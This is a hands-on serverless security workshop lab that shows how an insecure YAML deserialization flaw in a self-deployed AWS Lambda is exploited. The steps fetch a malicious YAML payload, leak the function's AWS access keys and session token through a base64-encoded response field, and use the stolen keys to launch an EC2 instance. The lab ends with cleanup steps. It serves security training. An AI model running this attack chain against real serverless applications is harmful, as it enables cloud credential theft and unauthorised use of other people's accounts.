

# Insecure Deserialization

>In this example, we'll leverage an Insecure Deserialization Attack to compromise and perform lateral movement against the AWS Account

**Note:** If you have not setup your aws cli follow [AWS-CLI-Configuration](aws-configure/README.md) under the `Setup` section*

* Step 1: In your image, navigate over to `/root/labs/Serverless-Workshop/Insecure-Deserialization`

```commandline
cd /root/labs/Serverless-Workshop/Insecure-Deserialization
```

* Step 2: Run `sls plugin install -n serverless-python-requirements`

```commandline
sls plugin install -n serverless-python-requirements
```

* Wait for instructor to explain the contents of the lab
* Step 3: Let's look at the contents of the `serverless.yml` [here](https://github.com/we45/Serverless-Workshop/blob/master/DynamoDB-Injection/serverless.yml)

* Step 4: Deploy the function with the command `sls deploy`

```commandline
sls deploy
```
* Wait for the function to deploy completely
* Once the function is deployed, you should see a URL ending with `yaml-upload`
* Step 5: Let's first upload a yaml file to see what it does

```bash
http POST https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/yaml-upload file=@serverless.yml
```

* Step 6: Now let's run a malicious yaml to see if our attack works

```bash
wget https://raw.githubusercontent.com/we45/container_training/master/Kubernetes/K8s-Cluster-Attack/payloads/test_payment.yml
```

* Examine this file and see what's different about it

* Step 7: Now let's upload the YAML file and see if our payload executes

```bash
http POST https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/yaml-upload file=@test_payment.yml
```

You should see a response like this
```json

{
    "content": {
        "amount": 112,
        "card": 5111111111111111,
        "merchant": "Hello World Traders",
        "name": "PayTM Bill payment 5",
        "reason": "UEFUSD0vdmFyL2xhbmcvYmluO <Truncated base64 value>"
    }
}

```
* Step 8: Copy the Base64 encoded value for the  `reason` key and run: 

```bash
echo "<copied value>" | base64 -d
```

you should see a bunch of environment variables being displayed on screen

```bash
ATH=/var/lang/bin:/usr/local/bin:/usr/bin/:/bin:/opt/bin
LD_LIBRARY_PATH=/var/lang/lib:/lib64:/usr/lib64:/var/runtime:/var/runtime/lib:/var/task:/var/task/lib:/opt/lib
LANG=en_US.UTF-8
TZ=:UTC
LAMBDA_TASK_ROOT=/var/task
LAMBDA_RUNTIME_DIR=/var/runtime
AWS_REGION=us-west-2
AWS_DEFAULT_REGION=us-west-2
AWS_LAMBDA_LOG_GROUP_NAME=/aws/lambda/we45-sls-workshop-deserial-dev-deserial
AWS_LAMBDA_LOG_STREAM_NAME=2019/07/25/[$LATEST]d10c0fbe300f43f5b5f4827099e506c2
AWS_LAMBDA_FUNCTION_NAME=we45-sls-workshop-deserial-dev-deserial
AWS_LAMBDA_FUNCTION_MEMORY_SIZE=2048
AWS_LAMBDA_FUNCTION_VERSION=$LATEST
_AWS_XRAY_DAEMON_ADDRESS=169.254.79.2
_AWS_XRAY_DAEMON_PORT=2000
AWS_XRAY_DAEMON_ADDRESS=169.254.79.2:2000
AWS_XRAY_CONTEXT_MISSING=LOG_ERROR
AWS_EXECUTION_ENV=AWS_Lambda_python3.7
_HANDLER=handler.main
AWS_ACCESS_KEY_ID=<AWS_ACCESS_KEY_ID>
AWS_SECRET_ACCESS_KEY=<AWS_SECRET_ACCESS_KEY>
AWS_SESSION_TOKEN=<AWS_SESSION_TOKEN>
```

* Step 9: Now run `export AWS_ACCESS_KEY_ID=<AWS_ACCESS_KEY_ID>` by copying the Access Key ID

```commandline
export AWS_ACCESS_KEY_ID=<AWS_ACCESS_KEY_ID>
```

* Step 10: Now run `export AWS_SECRET_ACCESS_KEY=<AWS_SECRET_ACCESS_KEY>` by copying the Access Key

```commandline
export AWS_SECRET_ACCESS_KEY=<AWS_SECRET_ACCESS_KEY>
```

* Step 11: Now run `export AWS_SESSION_TOKEN=<AWS_SESSION_TOKEN>` by copying the session token

```commandline
export AWS_SESSION_TOKEN=<AWS_SESSION_TOKEN>
```

you are now using the credential provided by these tokens for the Lambda service

* Step 12: if you run `aws dynamodb list-tables` you should get an error, as you are no longer using the admin profile anymore

```commandline
aws dynamodb list-tables
```

### Let's complete the attack

* Step 13: Now we should be able to launch an EC2 instance with this command: 
```bash
aws ec2 run-instances --image-id ami-9abea4fb --count 1 --instance-type t2.micro
```

* Step 14:  Now access your AWS Console and look `EC2`, and go to `instances` and check the `instances status`. It should show `running`. That means Server has been provisioned.
 


## Clean up - Very important!!!

* Step 15: Get *ec2 InstanceId*  `aws ec2  describe-instances | grep InstanceId`

```commandline
aws ec2  describe-instances | grep InstanceId
``` 

* Step 16: Copy the `InstanceId` and terminate the `ec2` instance `aws ec2 terminate-instances --instance-ids <InstanceId Value>`

```commandline
aws ec2 terminate-instances --instance-ids <InstanceId Value>
```


### You don't want to leave your AWS Account with actively exploitable RCE flaw

* Step 17: Unset the AWS_ACCESS_KEY_ID

```commandline
unset AWS_ACCESS_KEY_ID
```

* Step 18: Unset the AWS_SECRET_ACCESS_KEY

```commandline
unset AWS_SECRET_ACCESS_KEY
```

* Step 19: Unset the AWS_SESSION_TOKEN

```commandline
unset AWS_SESSION_TOKEN
```

* Step 20: In your image, navigate over to `/root/labs/Serverless-Workshop/Insecure-Deserialization`

```commandline
cd /root/labs/Serverless-Workshop/Insecure-Deserialization
```

* Step 21: now run `sls remove` to remove the vulnerable function from your account

```commandline
sls remove --force
```


